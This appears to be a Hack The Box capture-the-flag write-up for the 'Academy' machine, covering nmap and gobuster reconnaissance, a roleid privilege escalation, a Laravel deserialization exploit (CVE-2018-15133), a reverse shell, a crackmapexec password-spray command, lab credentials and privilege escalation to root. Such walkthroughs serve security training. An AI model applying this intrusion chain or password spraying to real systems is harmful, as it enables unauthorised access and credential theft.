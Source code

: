 ```yaml
---
title: "[HTB] Machine: Academy"
description: "[HTB] Machine: Academy"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Academy"
    identifier: htb-machine-academy
    parent: htb-machines-linux
    weight: 10
hero: images/academy.png
tags: ["HTB", "deserialization", "laravel", "aureport", "vhosts", "adm"]
---
```


# Academy
## Enumeration
- ```Nmap```
```
└─$ nmap -sC -sV -Pn 10.10.10.215
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 17:02 BST
Nmap scan report for 10.10.10.215 (10.10.10.215)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c090a3d835256ffa3306cf8013a0a553 (RSA)
|   256 2ad54bd046f0edc93c8df65dabae7796 (ECDSA)
|_  256 e16414c3cc51b23ba628a7b1ae5f4535 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.80%I=7%D=11/9%Time=5FA927A7%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
...[snip]...
SF:x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.95 seconds
```

- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://academy.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://academy.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/05 17:37:00 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/index.php            (Status: 200) [Size: 2117]
/login.php            (Status: 200) [Size: 2627]
/register.php         (Status: 200) [Size: 3003]
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/admin.php            (Status: 200) [Size: 2633]
/config.php           (Status: 200) [Size: 0]
```

## Foothold
- I started with registering to the Web Server
  - `roleid` is the most interesting parameter

![](./images/2.png)

- Let's change `roleid` to `1`
  - We can access `admin.php`

![](./images/3.png)

![](./images/4.png)

- Let's check `dev-staging-01.academy.htb`
  - We have `laravel` framework running
  - And found an `APP_Key`

![](./images/5.png)

![](./images/6.png)


- There is a [CVE-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py)
  - We can exploit it
  - There is a nice [post](https://www.programmersought.com/article/29875427507/) explaining the CVE
  - Also check this [post](https://www.truesec.com/hub/blog/from-s3-bucket-to-laravel-unserialize-rce) explaining the attack

![](./images/7.png)

- I spawn my own reverse shell so I can upgrade it

![](./images/8.png)

![](./images/9.png)

## User 1
- Enumerate for privesc
  - We got `db` password

![](./images/10.png)

![](./images/11.png)

![](./images/12.png)

- If we check for password reuse, we successfully login as `cry0l1t3`
  - Password spray: `crackmapexec ssh 10.10.10.215 -u user.list -p 'mySup3rP4s5w0rd!!'`
  - `cry0l1t3:mySup3rP4s5w0rd!!`

![](./images/13.png)

## User 2
- Groups
  - According to [docs], `Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole`

![](./images/14.png)

- Let's read logs
  - There is a tool `aureport`, which can be used with `--tty` to show logs which include passwords in plain text based on following [post](https://support.oracle.com/knowledge/Oracle%20Linux%20and%20Virtualization/2239220_1.html)

![](./images/15.png)

- Use the creds and pwn another user
  - `mrb3n:mrb3n_Ac@d3my!`

![](./images/16.png)

## Root
- Check `sudo` rights

![](./images/17.png)

- Follow the [instructions] and get root

![](./images/18.png)
